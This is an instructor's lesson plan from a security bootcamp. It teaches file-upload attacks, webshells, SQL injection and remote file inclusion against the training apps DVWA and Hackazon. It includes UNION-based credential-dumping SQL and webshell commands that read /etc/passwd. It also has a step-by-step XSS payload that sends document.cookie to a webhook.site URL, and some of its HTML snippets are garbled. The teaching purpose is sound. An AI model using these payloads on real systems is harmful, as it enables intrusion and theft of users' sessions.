

# Unit 13.2 Lesson Plan - File Upload Vulnerabilities
 
## Overview
Today's lesson introduces students to File Inclusion vulnerabilities, including:
- Malicious file uploads and webshells
- Local File Inclusion (LFI) via path traversal
- Remote File Inclusion (RFI)

At the end of class, students will serve a webshell, which they'll use to deliver a cookie-stealing XSS to a vulnerable site via RFI.

## Class Objectives
By the end of today's class, students will be able to:
- Test for LFI/RFI vulnerabilities
- Exfiltrate data from a server with webshells
- Steal cookies by combining RFI with XSS

## Instructor Notes
- Students will use DVWA to explore Burp Suite. You'll start DVWA by opening a Terminal and running: `start_dvwa`.
  - To view the app, open a web browser, and navigate to `http://localhost`.
  - Log in with: username `admin` and password `password`.
  - Click **Create / Reset Database**, and log in again.
  - **Note** This lesson will require you to continue using the Trilogy Cyber Ubuntu VM. 

## Hackazon

Today you will be introducing the vulnerable web application Hackazon. You will need to install this before class, and will want to run through the exercise **Uploading a Webshell**. Scripts for easy Hackazon installation can be found below:

- [Run Me](run_me.sh)
- [Dependencies](dependencies.sh)

Place both the **run_me.sh** and **dependencies.sh** in the `/usr/bin` directory. From there, you will only need to run the **run_me** script, as it will run the dependencies script for you. 

To run the script you will need to do the following
- Download the script onto your VM.
- Become the root user. 
- Change the permissions on the scripts by running `chmod +x run_me && chmod +x script`.
- Run the scripts `./run_me`. 

**If** you are using VMware, run the following commands:
- `sudo rm -rf /var/lib/apt/lists/*`
- `sudo apt-get clean`
- `sudo apt-get update`
- `chmod +x run_me && chmod +x dependencies`
- `./run_me.sh`. 

After running this script, you will be able to navigate to hackazon by typing into the url bar `hackazon.com`, and DVWA by typing `dvwa.com`. 

A video walkthrough has been provided in case you need further assistance: 
- [Walkthrough](https://drive.google.com/open?id=1ukT99JuQIssI32lmyzmF6CN7rWI0kBhl)


**Note** if your machine restarts you'll need to turn DVWA and Hackazon back on by entering the following commands:

- `/usr/local/bin/start_dvwa`
- `/usr/local/bin/start_hackazon`


### Slideshow

- The lesson slides are available on Google Drive here: [Web Vulnerabilities Week 2 Day 2 Slides](https://docs.google.com/presentation/d/1EGZ04x3hY17BI7bq67QQ1uP2YX3qDQnJZPhmeAkNICM/edit#slide=id.g4f80a3047b_0_990).

- To add slides to the student-facing repository, download the slides as a PDF by navigating to File > "Download as" and choose "PDF document." Then, add the PDF file to your class repository along with other necessary files.

- **Note:** Editing access is not available for this document. If you or your students wish to modify the slides, please create a copy by navigating to File > "Make a copy...".

---
 
### 01. Guided Practice: In-Band SQL Injection Review (0:15)

Welcome students back to class and inform them that we will begin with a review of In-Band UNION-Based SQL injections.

Send students the following files:

- [Instructions](Activities/Stu_SQLi_Warm_Up/README.md)

**Instructions**
- Consider the following URL: `https://vulnerable.site?id=1`. How would you test this URL for a SQL injection vulnerability?

- Consider the following URLs: 
  - `https://vulnerable.site?id=1%20AND%201=1`.
  - `https://vulnerable.site?id=1%20AND%201=2`.
  - If the first URL works and the second causes an error, what can you conclude?

- Fill out the query below to select `login` and `password` information from `users`.

  ```sql
  SELECT name, age FROM users
  UNION
  -- Your SQL here
  ```

### 02. Direct Instruction: Review SQLi Warm-Up (0:05)
- Review the solutions in [Stu_SQLi_Warm_Up/Solved/README.md](Activities/Stu_SQLi_Warm_Up/Solved/README.md).

**Solutions**

Consider the following URL: `https://vulnerable.site?id=1`. How would you test this URL for a SQL injection vulnerability?
- **Solution**
    - Start by injecting quotation marks (`'` and `"`). If these produce errors, the server may be vulnerable to injection.
    - If you suspect there's a vulnerability, you should try an OR and AND injection.

Consider the following URLs: 
  - `https://vulnerable.site?id=1%20AND%201=1`.
  - `https://vulnerable.site?id=1%20AND%201=2`.

If the first URL works and the second causes an error, what can you conclude?
- **Solution**
    - If the first URL works and the second causes an error, we can conclude that the database ran the full SQL statement in the URL. 
    - If the AND comparison is true, it will work as normal. If it is false, it will cause an error. Only servers that are vulnerable to injection will work this way.

Fill out the query below to select `login` and `password` information from `users`.

  ```sql
  SELECT name, age FROM users
  UNION
  SELECT login, password FROM users
  ```

### 03. Direct Instruction: Uploading Malicious Files (0:25)
Remind students where they left off at the end of the previous class: With administrator access to the control panel of a vulnerable web application.

#### SQL Injection Review

Emphasize that compromising the web application does not imply a full server takeover or full control of the web application, but rather the ability to perform whichever high-privileged actions the web application happens to expose to site admins.

- Use Firefox to navigate to your DVWA instance. 

- Navigate to **File Uploads** on the left hand pane. 

Explain that today's lesson will explore a common method used to turn administrator access to a web server into a tool for running commands on the host: File uploads.

- This functionality is intended to allow the site administrator to upload pictures to the photo blog, but it can also be used to upload arbitrary files, including code!

- Therefore, attackers can upload malicious PHP that can be used to execute shell commands.

Explain that we'll do this using a tool called a **Webshell**, which you'll discuss next.

- Take a moment to address remaining questions before proceeding.

#### Webshells

Explain that webshells allow attackers to run shell commands by sending them as parameters in HTTP requests. The script on the server parses the parameters, then runs them as code.

- In other words, a webshell is simply a script on the web server that you can use to run shell commands with HTTP requests.

- For example, to use a webshell, an attacker might navigate to: `http://example.com/webshell.php?command=ls`.
  - The script would read the `command` parameter, whose value is `ls`.
  - The script would run `ls` as a shell command.
  - The HTTP response would contain the results normally printed to the command line.

Explain that attackers can use webshells to exfiltrate data and further exploit the vulnerable system.

Explain that webshells are typically installed on web servers via file upload features, such as those available on the site you compromised via SQL injection.

#### Uploading a Webshell

Next, you'll demonstrate how to exploit a webshell on a compromised host.

- Start by showing students [webshell.php](webshell.php).

- This script reads the GET query parameter called `cmd`, and runs it as a shell command. Students will have an opportunity to study this script in more detail in the next exercise.

- Explain that you can use this to exploit a site by uploading it to a vulnerable site.

- Explain that for this next demonstration you're going to use the vulnerable web application called **Hackazon**. Explain that:

  - Hackazon is a vulnerable web application created by the security organization **Rapid7**.
  - Hackazon was designed to help security teams practice setting up protection around vulnerable websites, as well as provide practice exercises for their testers to test their hacking abilities. 
  - For the homework, you will run a script on your machine's to that will install hackazon locally and help you hone your skills that you have learned this past week. 

Open Firefox and navigate to `hackazon.com`. If the browser takes you to a different page, re-enter hackazon.com.  
- Click in the upper right hand corner `Sign In/Sign Up`
- Enter arbitrary information to create an account. 
  - It will give you an error that says **503 Service Temporarily Unavailable**. You can **ignore** this and click the back button. 
- Go to `Your account` and choose from the drop down menu `My Profile`.
- Click `Edit Profile`. 
- Click `Select avatar image` and upload the [webshell.php](webshell.php).
- Click `Save and exit`. 

On the right hand of the screen you should see a broken image. Right click it and click `Inspect image`.



Point out that this is actually an image tag trying to load the uploaded `webshell.php` as an image. Since that's not an image, it doesn't appear as one. But, you can find the location of the uploaded shell by inspecting the `src` attribute of the tag.

Explain that we need to activate the script by going to that page.
  - Navigate to `hackazon.com/user_pictures/76/webshell.php` 

Point out that this loads a page loads nothing due to an undefined parameter. Explain that this error is due to the fact that we accessed the shell, but didn't pass a command.

- In the navigation bar, add the query string: `cmd=cat+/etc/passwd`. This should fix the error.
  - Your URL will look something like: `hackazon.com/user_pictures/76/webshell.php?cmd=cat+/etc/passwd`

Point out that this dumps the contents of the server's `/etc/passwd` file to the page, demonstrating that it ran the command `cat /etc/passwd` sent in the query parameter even though you are not an administrator.

- Take a moment to address remaining questions before proceeding.

### 04. Guided Practice: My First Webshell (0:25)

Explain to students that in this exercise, you will:
- Examine the form and function of a PHP webshell
- Upload a webshell to a vulnerable server
- Use Burp Suite to perform reconnaissance against the compromised host


Send students the following files:
- [Instructions](Activities/Stu_My_First_Webshell/README.md)

We’ve also included the details of the student activity file for your reference.

**Instructions**

**First Steps with Webshells**
You do not need to know PHP to assess web applications. However, it's very useful to be familiar with:
- How PHP is inserted into web pages
- How user data is extracted from an HTTP request
- How PHP runs shell commands from server-side scripts

Understanding these concepts will prepare you for later work in web pentesting, which often requires that you modify existing PHP payloads to suit your specific needs.

Open [webshell.php](webshell.php), then answer the questions below:

1. Look at the beginning and end of the file. What syntax do we use to start and end a PHP script?

2. What does the variable `$_GET` refer to?

3. Consider the URL: `https://example.com?parameter=value`. 
  
    - How would you get the value of `param` in PHP?

4. Consider the following POST body: `username=hacker&password=null`
 
    - How would you get the value of `username` in PHP? What about `password`?

**Uploading and Exploiting a Webshell**

Use **Firefox** to navigate to `http://localhost/vulnerabilities/upload/` and then, follow the instructions below:

- Upload `webshell.php` to DVWA.

- Launch Burp Suite, and enable Foxy Proxy.

- Intercept a request to `http://localhost/hackable/uploads/webshell.php`

- Send the intercepted request to Repeater with `Ctrl + R`.

- In Repeater, add the query parameter: `cmd=ls`. You should get familiar-looking output in the response.

- Use Repeater to extract the following information from the server:
  - Read the contents of `/etc/passwd`
  - Run `id` and `whoami`
  - Determine the operating system and kernel version with `uname`
  - List all running processes with `ps aux`
    - **Note**: Recall that you must use a `+` or `%20` to send a space in a URL, e.g.: `ls -sail` becomes `ls+-sail` _or_ `ls%20-sail`.

- As a **bonus**, repeat the above exercise with Burp Intruder instead of Repeater.


### 05. Direct Instruction: Review My First Webshell (0:10)

Use the following solution to guide your review:
- [Solution](Activities/Stu_My_First_Webshell/Solved/README.md)

**Instructions**

**First Steps with Webshells**
You do not need to know PHP to assess web applications. However, it's very useful to be familiar with:
- How PHP is inserted into web pages
- How user data is extracted from an HTTP request
- How PHP runs shell commands from server-side scripts

Understanding these concepts will prepare you for later work in web pentesting, which often requires that you modify existing PHP payloads to suit your specific needs.

Open [webshell.php](../webshell.php), then answer the questions below:


- Look at the beginning/end of the file. How do you start/end a PHP script?
  
    - **Solved**: PHP files look like: `<?php /* PHP Code Here */ ?>`. I.e., they start with `<?php`, and end with `?>`.

- What does the variable `$_GET` refer to?
    - **Solved**: The variable `$_GET` refers to the query string of an HTTP GET request.

- Consider the URL: `https://example.com?parameter=value`.  How would you get the value of `param` in PHP?
    - **Solved**: Use: `$_GET['param']`

- Consider the following POST body: `username=hacker&password=null`. How would you get the value of `username` in PHP? What about `password`?
  
    - **Solved**: Use: `$_POST['username']` and `$_POST['password']`.

**Uploading and Exploiting a Webshell**

Use **Firefox** to navigate to `http://localhost/vulnerabilities/upload/`. Then, follow the instructions below:

- Upload `webshell.php` to DVWA.

- Launch Burp Suite, and enable Foxy Proxy.

- Intercept a request to `http://localhost/hackable/uploads/webshell.php`.

- Send the intercepted request to Repeater with `Ctrl + R`.

- In Repeater, add the query parameter: `cmd=ls`. You should get familiar-looking output in the response.
  - **Solution**: You'll use a request line like: `GET /hackable/webshell.php?cmd=ls HTTP/1.1`

Use Repeater to extract the following information from the server:
  - Run `id` and `whoami`
  - Determine the operating system and kernel version with `uname`
  - Read the contents of `/etc/passwd`
  - List all running processes with `ps aux`
  - **Note**: Recall that you must use a `+` or `%20` to send a space in a URL, e.g.: `ls -sail` becomes `ls+-sail` _or_ `ls%20-sail`.
  
**Solutions**:
- To dump `/etc/passwd`: `GET /hackable/webshell.php?cmd=cat%20/etc/passwd`
- For user info: `id`: `GET /hackable/webshell.php?cmd=id`
- For OS info: `uname`: `GET /hackable/webshell.php?cmd=uname`
- For process info: `ps aux`: `GET /hackable/webshell.php?cmd=ps%20aux`

As a **bonus**, repeat the above exercise with Burp Intruder instead of Repeater.
  
- **Solution**:
    - Send the request from Repeater to Intruder by pressing `Ctrl + I`. 
    - Add a position such that your request line looks like: `GET /hackable/webshell.php?cmd=$COMMAND$`. 
    - Add the commands you ran above as payloads in Intruder, and click **Start Attack**.


Point out that in this case, none of the commands will work. 
- The lack of existing network utilities means you won't be able to leverage them to break in. 
- Therefore, you will have to find another way to compromise it.


### BREAK (0:20)


### 09. Direct Instruction: Receiving Requests with webhook (0:15)

File uploads are popular amongst hackers because they are able to smuggle malicious scripts onto the server. 

- If the attacker can then find a way to execute those scripts they can take advantage of your system. 
- **Remote File Inclusion (RFI)** is used to send data from the compromised host back to the attacker.”

- This requires you to have a server receiving requests from the victim.

In practice, you would set up your own HTTP server. But, for testing and learning purposes, we'll use a tool called Webhook, which provides a ready-made server that listens for requests.

- Navigate to: <https://webhook.site>.

- Click **Open in New Tab**, next to the unique URL provided midway down the page.

- Close the new tab, and point out that Webhook has logged the request the browser sent.

Explain that you can use this log to extract information from HTTP requests sent by compromised users.

Let students know they'll get their feet wet by sending requests from malicious files uploaded via RFI in the next exercise, before constructing and delivering a cookie-stealing XSS to their classmates (!)

- Take a moment to address remaining questions before proceeding.

### 10. Guided Practice: First Steps with Webhook (0:15)

Explain the following to students:
- In this activity, you will exploit an RFI vulnerability using webhooks and BurpSuite.
- You will need to open two web browsers for this activity. In one of them, navigate to `http://dvwa.com`. in the other, navigate to your personal Webhook URL.
- You will also create a malicious file that you will upload to DVWA.
 
Send students the following files:

- [Instructions](Activities/Stu_First_Steps_with_Webhook/README.md)

We’ve also included the details of the student activity file for your reference.

**First Steps with Webhook**

Use Firefox to navigate to: <https://webhook.site>.

This will give you a unique URL. You will need this later on when you make your file. 

Enable Foxy Proxy, and intercept a request (click **Open In New Tab**) to your unique Webhook URL. Send this request to the Burp Repeater. 
  - Be sure to disable the interceptor after you capture the request.

Then, follow the instructions below.

**Instructions**

- Send the intercepted request to Repeater, and press **Go**. Compare the request in Repeater to the Webhook log (which is on the webhook page in Firefox) to familiarize yourself with reading captured requests.

- In Repeater, go to the headers tab and add the following Header: `Cookie: PHPSESSID=FakeSessionID`. Then, press **Go**. Go back to your open webhooks page, and find the cookie that you just passed.

- Create a file called `webhook.php`, Add an image tag like the one below.

  ```html
  ?example=parameter" >
  ```
  - Replace the word `parameter` with your name. 

- Upload your file with the RFI vulnerability at `localhost/hackable/uploads/`. 

- Browse over to the PHP file by going to `localhost/hackable/uploads/` and then click on your `webhook.php` file. This will launch your PHP script!

- Return to your Webhook log, and find the most recent request. Identify the query parameter that was sent. (It should show `Query strings` then the info directly below that.)

### 11. Direct Instruction: Review Webhook Exercise (0:10)

<details> <summary>In lieu of a formal solution guide, please walk students through the steps of the activity.  </summary>

**Steps**

- Send the intercepted request to Repeater, and press **Go**. Compare the request in Repeater to the Webhook log (which is on the webhook page in Firefox) to familiarize yourself with reading captured requests.

- In Repeater, go to the headers tab and add the following Header: `Cookie: PHPSESSID=FakeSessionID`. Then, press **Go**. Go back to your open webhooks page, and find the cookie that you just passed.

- Create a file called `webhook.php`, that contains an image tag like the one below.

  ```html
  ?example=parameter" >
  ```
   - Replace the word `parameter` with your name. 

- Upload your file with the RFI vulnerability at `localhost/hackable/uploads/`. 
  - After running the DVWA script you will need to navigate to `dvwa.com/hackable/uploads/`. 

- Return to your Webhook log, and find the most recent request. Identify the query parameter that was sent. (It should show `Query strings` then the info directly below that.)

</details>

### 12. Guided Practice: Serving an XSS Vector (0:20)

Explain to students that:

- In this exercise, you'll play the role of a **penetration tester** tasked with assessing a site for XSS vulnerabilities.

- In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
  - Creating a "webhook", which will serve as a malicious server to receive user cookies
  - Building an `img` tag that sends an HTTP request to your webhook
  - Updating the `img` tag to include the user's cookies in a query string
  - Injecting a `script` tag that dumps the image tag to the page

Send students the following files:
- [Instructions](Activities/Stu_Cookie_Phishing/README.md)


We’ve also included the details of the student activity file for your reference

**Welcome!**

In this exercise, you have been tasked with assessing a site for XSS vulnerabilities. As part of your task, you will need to show _how_ the website is vulnerable, and how a malicious actor could take advantage of the vulnerability. 

In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
- Creating a "webhook", which will serve as a malicious server to receive user/victims cookies.
- Building an `img` tag that sends an HTTP request to your webhook.
- Updating the `img` tag to include the user's cookies in a query string.
- Injecting a `script` tag that dumps the image tag to the page. 

**Prework**

Before we begin, we will need to set a cookie for us to try and steal. As the victim you will need to open your DVWA instance that is installed onto your VM. Right click on the page and click `Inspect Element` from the drop down menu. Click on `Console`, type the following and press **Enter**:

`document.cookie = "test: password;"`

This will set the cookie for us to steal. If you have visited other websites that have saved cookies onto your VM, this activity will steal those cookies instead. 

**Instructions**

In order to steal the cookie information, complete the following:

- Navigate to <https://webhook.site/>. Copy the unique URL provided on the page. This is the URL you'll send requests containing user cookies to.

- Navigate to your DVWA instance. 

- Create a new named `exploit.php` that includes the PHP below:

```
<?php
$html = <<<EOF
" />
EOF;

echo $html;
```

- Save the file. 

- Navigate to **File Upload** tab on the left hand of the DVWA instance. Upload your exploit.php file. Activate your malicious script by going to `localhost/hackable/uploads/exploit.php`. You should see a broken image on the page.

- Return to your Webhook. You should see a new request appear on the left sidebar. This was sent by your image tag, so you know that it's successfully communicating with your "malicious" server.

- Update your file as follows:

```
<?php
$html = <<<EOF
?cookie="+(document.cookie||"no cookie!") />
EOF;

echo $html;
```

- Save the file, and use it to re-upload it to DVWA. Navigate back to `localhost/hackable/uploads/exploit.php`. Your Webhook should receive another request. but _not_ include any cookies (yet!). This is just to verify that your update didn't break the image tag.

- Finally, edit your Gist again. Update it as follows. This will cause the XSS to actually include the user's cookie in the request, or let you know that they don't have anything to steal.

```
<?php
$html = <<<EOF
<script>document.write('<<Your Webhook URL>?cookie='+(document.cookie||'no cookie!') + '"/>')</script>
EOF;

echo $html;
```

- Save your file, and re-upload it one last time. Navigate back to `localhost/hackable/uploads/exploit.php` to activate it. 

- Check your Webhook to ensure you're receiving requests.
  - What do you notice as your `cookie` value?
  - **Note**: If things aren't working as expected, triple-check your quote marks!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.

### 13. Direct Instruction: Review Serving an XSS Vector (0:15)

<details> <summary> In lieu of a formal solution guide for this activity, please walk students through the steps of the activity.</summary>

**Cookie Phishing**

Welcome!

In this exercise, you'll play the role of a **penetration tester** tasked with assessing a site for XSS vulnerabilities.

In particular, you will attempt to exploit an XSS vulnerability to steal a user's cookies by:
- Creating a "webhook", which will serve as a malicious server to receive user cookies
- Building an `img` tag that sends an HTTP request to your webhook
- Updating the `img` tag to include the user's cookies in a query string
- Injecting a `script` tag that dumps the image tag to the page

**Prework**

Before beginning this activity, open your DVWA instance that is installed onto your VM. Right click on the page and click `Inspect Element` from the drop down menu. Click on `Console`, type the following and press **Enter**:

`document.cookie = "test: password;"`

This will set the cookie for us to steal. If you have visited other websites that have saved cookies onto your VM, this activity will steal those cookies instead. 

**Instructions**

- Navigate to <https://webhook.site/>. Copy the unique URL provided on the page. This is the URL you'll send requests containing user cookies to.

- Navigate to your DVWA instance. 

- Create a new named `exploit.php` that includes the PHP below:

```
<?php
$html = <<<EOF
" />
EOF;

echo $html;
```

- Save the file. 

- Navigate to **File Upload** tab on the left hand of the DVWA instance. Upload your exploit.php file. Activate your malicious script by going to `localhost/hackable/uploads/exploit.php`. You should see a broken image on the page.

- Return to your Webhook. You should see a new request appear on the left sidebar. This was sent by your image tag, so you know that it's successfully communicating with your "malicious" server.

- Update your file as follows:

```
<?php
$html = <<<EOF
?cookie="+(document.cookie||"no cookie!") />
EOF;

echo $html;
```

- Save the file, and use it to re-upload it to DVWA. Navigate back to `localhost/hackable/uploads/exploit.php`. Your Webhook should receive another request. but _not_ include any cookies (yet!). This is just to verify that your update didn't break the image tag.

- Finally, edit your Gist again. Update it as follows. This will cause the XSS to actually include the user's cookie in the request, or let you know that they don't have anything to steal.

```
<?php
$html = <<<EOF
<script>document.write('<<Your Webhook URL>?cookie='+(document.cookie||'no cookie!') + '"/>')</script>
EOF;

echo $html;
```

- Save your file, and re-upload it one last time. Navigate back to `localhost/hackable/uploads/exploit.php` to activate it. 

- Check your Webhook to ensure you're receiving requests.
  - What do you notice as your `cookie` value?
  - **Note**: If things aren't working as expected, triple-check your quote marks!

- When you verify that you're receiving requests, drop the link in Slack, and watch your logs.

- Take a moment to address remaining questions before proceeding.

</details>

### 14. Homework and Hackazon (0:05)

Explain to students the following:

- During this week, you used DVWA for most of the in class exercises, but you will be preforming similar exploits on Hackazon for the homework. 

- When you're ready to start the homework you will be given a script that will install Hackazon for you, and it is advised to install this sooner than later in case there are any issues that you will need help with. 

- Take a moment to address remaining questions before dismissing class.


---
### Copyright

Trilogy Education Services &copy; 2018. All Rights Reserved.
